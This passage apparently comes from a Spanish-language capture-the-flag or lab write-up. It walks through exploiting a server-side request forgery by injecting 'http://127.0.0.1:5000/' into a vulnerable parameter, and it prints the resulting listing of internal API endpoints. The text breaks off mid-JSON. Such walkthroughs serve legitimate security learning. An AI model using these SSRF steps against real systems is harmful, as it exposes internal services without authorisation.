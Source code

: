 Filtraremos para que no nos muestre lo siguiente `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` y nos aparecera solo un puerto el `5000`...

Si ahora donde es injectable el `SSRF` haremos lo siguiente...

<figure><img src="../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

En ese parametro ponemos lo siguiente descubierto...

```
http://127.0.0.1:5000/
```

Y cargara algo en la imagen, si vamos a ese link, te descargara lo siguiente...

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sent to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the API.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of the API.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
```